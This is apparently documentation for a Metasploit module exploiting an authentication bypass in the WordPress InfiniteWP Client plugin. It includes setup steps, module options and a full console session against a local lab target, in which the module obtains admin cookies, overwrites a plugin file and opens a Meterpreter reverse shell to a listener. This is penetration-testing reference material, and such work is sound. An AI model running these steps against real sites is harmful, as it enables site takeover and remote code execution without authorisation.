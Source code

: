 ## Vulnerable Application

### Description

This module exploits an authentication bypass in the WordPress
InfiniteWP Client plugin to log in as an administrator and execute
arbitrary PHP code by overwriting the file specified by `PLUGIN_FILE`.

The module will attempt to retrieve the original `PLUGIN_FILE` contents
and restore them after payload execution. If `VerifyContents` is set,
which is the default setting, the module will check to see if the
restored contents match the original.

Note that a valid administrator username is required for this module.

WordPress >= 4.9 is currently not supported due to a breaking WordPress
API change. Tested against 4.8.3.

### Setup

1. Install WordPress 4.8.3 or older
2. Download <https://downloads.wordpress.org/plugin/iwp-client.1.9.4.4.zip>
3. Follow <https://wordpress.org/plugins/iwp-client/#installation>

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets InfiniteWP Client versions < 1.9.4.5.

## Options

### USERNAME

Set this to a known, valid administrator username. Authentication will
be bypassed for this user.

### PLUGIN_FILE

Set this to a plugin file to insert the payload into, relative to the
plugins directory, which is normally `/wp-content/plugins`. The file
must exist and be writable by the web user. It will be overwritten and
later restored.

### VerifyContents

Verify that the restored contents of `PLUGIN_FILE` match the original.
This is the default setting.

## Scenarios

### InfiniteWP Client 1.9.4.4 on WordPress 4.8.3

```
msf5 > use exploit/unix/webapp/wp_infinitewp_auth_bypass
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > options

Module options (exploit/unix/webapp/wp_infinitewp_auth_bypass):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   PLUGIN_FILE  index.php        yes       Plugin file to edit
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       The base path to the wordpress application
   USERNAME     admin            yes       WordPress username
   VHOST                         no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   InfiniteWP Client < 1.9.4.5


msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rport 8000
rport => 8000
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] WordPress 4.8.3 is a supported target
[*] Found version 1.9.4.4 in the custom file
[+] The target appears to be vulnerable.
[*] Bypassing auth for admin at http://127.0.0.1:8000/
[+] Successfully obtained cookie for admin
[*] Cookie: wordpress_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CgtWIC1eZeuTo2twb615tUCpB4LEUzucWE5qaBl5dgDg%7C3f03c999c52281e3da48bef702b8c8780c3f041b2bba9f222f5d9756cbb18541; wordpress_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CgtWIC1eZeuTo2twb615tUCpB4LEUzucWE5qaBl5dgDg%7C3f03c999c52281e3da48bef702b8c8780c3f041b2bba9f222f5d9756cbb18541; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CgtWIC1eZeuTo2twb615tUCpB4LEUzucWE5qaBl5dgDg%7Ca0f3f416f7c60a7e0ea1b17af88d4a5e38d96141451f94fe27f605806f03f0c2; wordpress_sec_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CsVlsTRrZ8s8PgSudfIbMXr16rVrlnVz28mENB1jRSOP%7C5ed6dd8146701a38b741bf98cde81cc2b67736b88ea80a10ceba8cf5326b949e; wordpress_sec_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CsVlsTRrZ8s8PgSudfIbMXr16rVrlnVz28mENB1jRSOP%7C5ed6dd8146701a38b741bf98cde81cc2b67736b88ea80a10ceba8cf5326b949e; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CsVlsTRrZ8s8PgSudfIbMXr16rVrlnVz28mENB1jRSOP%7Cfeffe683bdfaaa670102e6564130394440510bf97e1ad09713ef1c3aa5627bfc;
[+] Successfully logged in as admin
[*] Retrieving original contents of /wp-content/plugins/index.php
[+] Successfully retrieved original contents of /wp-content/plugins/index.php
[*] Contents:
<?php
// Silence is golden.
[*] Overwriting /wp-content/plugins/index.php with payload
[*] Acquired a plugin edit nonce: 74cde501ca
[*] Edited plugin file index.php
[+] Successfully overwrote /wp-content/plugins/index.php with payload
[*] Requesting payload at /wp-content/plugins/index.php
[*] Restoring original contents of /wp-content/plugins/index.php
[*] Sending stage (38288 bytes) to 192.168.56.1
[*] Acquired a plugin edit nonce: 74cde501ca
[*] Edited plugin file index.php
[+] Current contents of /wp-content/plugins/index.php match original!
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:51923) at 2020-02-07 12:11:28 -0600

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : c7f8fbe7b083
OS          : Linux c7f8fbe7b083 4.19.76-linuxkit #1 SMP Thu Oct 17 19:31:58 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
